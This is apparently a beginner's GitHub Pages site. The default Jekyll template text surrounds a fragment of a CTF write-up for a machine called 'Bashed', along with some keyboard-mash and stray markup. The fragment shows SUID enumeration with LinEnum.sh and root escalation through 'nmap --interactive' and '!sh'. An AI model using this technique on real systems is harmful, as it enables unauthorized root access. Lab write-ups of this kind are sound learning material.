 



//////////////////////![image of bashed](https://miro.medium.com/max/529/1*_2A-7FgpNOMcLenwQqqX7g.png)









## Welcome to GitHub Pages
This is my first blog and I'm using github pages for the first time, so wish me luck.
You can use the [editor on GitHub](https://github.com/Starscorpio/writeup.github.io/edit/gh-pages/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.
https://miro.medium.com/max/529/1*_2A-7FgpNOMcLenwQqqX7g.png

### Markdown
##halsdkhflakdhslfkahd;lskfha;sldkhf;lakshdf;lkahsdf

Now, check for suids which have there suid bit enabled, by running the LinEnum.sh script:-


 


-As we can see that the suid bit is enabled for nmap binary/tool.

Using nmap in interactive mode to get root:
-nmap --interactive
---Then enter:
!sh

--And we are ROOT!!!!
`uname -a`


**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Starscorpio/writeup.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
